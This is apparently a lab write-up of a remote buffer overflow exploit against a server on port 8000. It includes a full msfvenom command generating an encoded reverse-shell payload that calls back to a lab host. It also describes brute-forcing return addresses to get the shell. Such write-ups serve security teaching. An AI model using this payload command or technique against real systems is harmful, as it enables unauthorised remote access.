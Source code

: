 # Remote Exploit
## 0x00 Task
The task here is to exploit a buffer overflow vulnerability on a remote server. The vulnerable application is running on port 8000 and we have to inject a suitable shellcode to hijack the control of its execution. What makes this exploit relatively challenging when compared to others, is that the server is remote and we cannot read the error messages from it once we send the packets to it. However, we have the piece of code which has the vulnerability server.c
## 0x01 Payload creation
With msfvenom, we create a non staged payload which provides us with reverse shell on port 4444 on our lab machine. To eliminate the bad characters we use the x86/alpha_upper encoder.
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.3 LPORT=4444 AppendExit=true -e x86/alpha_upper -f py
```
## 0x02 Testing the exploit locally
Since, we do not have the access to the vulnerable server, we need to first try and test the exploit locally on the server code we have access to. Luckily, the compiler versions on both the lab machine and the remote server are the same. The debugger can help us exploiting it locally. We start a listener using netcat on port 4444 and test our exploit *rexploit.py*. We can successfully exploit locally, we proceed to exploit it remotely. On the localhost the memory address is between 0xffff0000 to 0xffffffff

## 0x03 Send the Exploit to Remote Server
The main problem is, there is no way for us to find out the correct return address as there is no feedback from the server. We overcome this, by writing a script which will try to brute force all the memory addresses to find our return address. For remote, the address is not found in 0xffff0000 to 0xffffffff .So, enumeration is run from 0xff000000 to 0xffffffff. Sleep(0.1) is added as a precautionary measure. Our exploit is successful when we manage to get a shell in the listener!
